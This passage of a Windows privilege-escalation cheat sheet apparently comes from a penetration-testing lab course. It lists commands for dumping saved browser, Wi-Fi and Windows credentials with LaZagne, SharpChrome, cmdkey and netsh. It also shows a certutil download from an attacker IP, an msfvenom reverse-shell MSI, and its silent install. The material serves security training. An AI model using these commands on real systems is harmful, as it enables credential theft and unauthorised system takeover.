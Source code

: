 | ``where /R C:\ *.config`` | Search for file extensions |

| ``Get-ChildItem C:\ -Recurse -Include *.rdp, *.config, *.vnc, *.cred -ErrorAction Ignore`` | Search for file extensions using PowerShell |

| ``cmdkey /list`` | List saved credentials |

| ``.\SharpChrome.exe logins /unprotect`` | Retrieve saved Chrome credentials |

| ``.\lazagne.exe -h`` | View LaZagne help menu |

| ``.\lazagne.exe all`` | Run all LaZagne modules |

| ``Invoke-SessionGopher -Target WINLPE-SRV01`` | Running SessionGopher |

| ``netsh wlan show profile`` | View saved wireless networks |

| ``netsh wlan show profile ilfreight_corp key=clear`` | Retrieve saved wireless passwords |

| ``certutil.exe -urlcache -split -f http://10.10.14.3:8080/shell.bat shell.bat`` | Transfer file with certutil |

| ``certutil -encode file1 encodedfile`` | Encode file with certutil |

| ``certutil -decode encodedfile file2`` | Decode file with certutil |

| ``reg query HKEY_CURRENT_USER\Software\Policies\Microsoft\Windows\Installer`` | Query for always install elevated registry key (1) |

| ``reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer`` | Query for always install elevated registry key (2) |

| ``msfvenom -p windows/shell_reverse_tcp lhost=10.10.14.3 lport=9443 -f msi > aie.msi`` | Generate a malicious MSI package |

| ``msiexec /i c:\users\htb-student\desktop\aie.msi /quiet /qn /norestart`` | Executing an MSI package from command line |

| ``schtasks /query /fo LIST /v`` | Enumerate scheduled tasks |

| ``Get-ScheduledTask \| select TaskName,State`` | Enumerate scheduled tasks with PowerShell |

| ``.\accesschk64.exe /accepteula -s -d C:\Scripts\`` | Check permissions on a directory |

| ``Get-LocalUser`` | Check local user description field |

| ``Get-WmiObject -Class Win32_OperatingSystem \| select Description`` | Enumerate computer description field |

| ``Get-WmiObject -Class Win32_Product \|  select Name, Version`` | Enumerate installed products |

| ``guestmount -a SQL01-disk1.vmdk -i --ro /mnt/vmd`` | Mount VMDK on Linux |
